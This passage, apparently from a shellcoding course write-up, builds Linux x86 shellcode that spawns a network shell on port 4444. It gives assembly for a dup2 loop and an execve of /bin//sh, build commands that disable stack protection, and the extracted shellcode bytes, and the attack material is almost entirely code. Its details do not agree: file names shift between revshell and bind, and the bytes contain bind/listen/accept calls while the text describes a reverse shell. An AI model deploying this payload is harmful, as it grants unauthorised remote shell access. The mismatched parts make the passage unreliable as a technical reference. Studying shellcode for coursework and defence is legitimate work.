 ```
        MOV CL, 0x3     ; putting 3 in the counter

LOOP_DUP2:
        XOR EAX, EAX    ; clear EAX
        MOV AL, 0x3F    ; putting the syscall code in EAX
        MOV EBX, EDI    ; putting our new socket descriptor in EBX
        DEC CL          ; decrementing CL by one (so at first CL will be 2 then 1 and then 0)
        INT 0x80        ; interrupt
        JNZ LOOP_DUP2   ; "jump non zero" jumping back to the top of LOOP_DUP2 if the zero flag is not set

 
        ; execve syscall
        XOR EAX, EAX
        PUSH EAX
        PUSH 0x68732f6E
        PUSH 0x69622f2F
        MOV EBX, ESP
        PUSH EAX
        MOV EDX, ESP
        PUSH EBX
        MOV ECX, ESP
        MOV AL, 0x0B
        INT 0x80
```

We can compile and link code with:
```
nasm -f elf32 revshell.nasm -o bind.o
ld -z execstack -o revshell revshell.o  -m elf_i386
```

And when we run it, we can confirm that connection to remote IP address on port 4444 is established and provides shell.

![reverse shell](https://smarinovic.github.io/assets/img/slae_000010.png)


Objdump can be used to get opcode:

```
objdump -d bind |grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
"\x31\xc0\x31\xdb\x31\xc9\x31\xd2\x66\xb8\x67\x01\xb3\x02\xb1\x01\xb2\x06\xcd\x80\x89\xc7\x31\xc9\x51\x51\x66\x68\x11\x5c\x66\x6a\x02\x89\xe1\x89\xc3\x66\xb8\x69\x01\xb2\x16\xcd\x80\x31\xc0\xb8\x6b\x01\x00\x00\x89\xfb\xb1\x02\xcd\x80\x31\xc0\xb8\x6c\x01\x00\x00\x89\xfb\x31\xc9\x31\xd2\x31\xf6\xcd\x80\x31\xff\x89\xc7\xb1\x03\x31\xc0\xb0\x3f\x89\xfb\xfe\xc9\xcd\x80\x75\xf4\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"
```

Opcode can be copied in skeleton C program. Once compiled and run we can confirm that connection to remote IP address on port 4444 is established and shell is provided.

```
gcc -fno-stack-protector -z execstack -m32 skeleton.c -o rev_shell
```
![opcode test](https://smarinovic.github.io/assets/img/slae_00014.png)
